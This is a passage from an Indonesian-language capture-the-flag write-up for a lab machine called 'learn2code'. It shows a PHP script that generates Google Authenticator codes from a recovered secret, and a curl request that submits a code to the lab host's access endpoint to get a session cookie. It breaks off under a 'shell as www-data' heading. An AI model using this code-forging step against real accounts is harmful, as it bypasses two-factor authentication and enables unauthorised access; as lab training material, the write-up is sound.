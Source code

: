 ```php
<?php
  require_once 'GoogleAuthenticator.php';
  $ga = new PHPGangsta_GoogleAuthenticator();

  $secret = "S4I22IG3KHZIGQCJ";
  $kodeNyaAnjing = $ga->getCode($secret);
  $checkResult = $ga->verifyCode($secret, $kodeNyaAnjing, 1);
  if ($checkResult) {
    echo $kodeNyaAnjing;
  }
  else
  {
    echo 'failed'; # code...
  }

?>

```
lalu saat saya jalankan, dan yap tinggal masukkan saja.
```bash
╭─ via [machines/learn2code]
╰─ php testing.php
991873%
```
## shell as www-data

Jadi ga tau kenapa saat saya ingin melihat responsive websitenya kembali dan memasukkan _generated code_ tersebut malah ga masuk-masuk, jadi saya menggunakan CLI untuk testing dan nanti saya akan menggunakan cookies sebagai pengganti _request data_ agar tetap saved login.

```bash
╭─ via [machines/learn2code]
╰─ php testing.php
772367%
╭─ via [machines/learn2code]
╰─ curl -vX POST 'http://192.168.56.27/includes/php/access.php' -d 'action=check_code&code=772367'
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 192.168.56.27:80...
* Connected to 192.168.56.27 (192.168.56.27) port 80 (#0)
> POST /includes/php/access.php HTTP/1.1
> Host: 192.168.56.27
> User-Agent: curl/7.85.0
> Accept: */*
> Content-Length: 29
> Content-Type: application/x-www-form-urlencoded
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 15 Oct 2022 09:20:07 GMT
< Server: Apache/2.4.38 (Debian)
< Set-Cookie: PHPSESSID=n6jrt811hte6ni7hetvj4vh6kp; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 1543
< Content-Type: text/html; charset=UTF-8
<
                <!DOCTYPE html>
                <HTML>
                        <head>
                                <title>Coding practise</title>

```
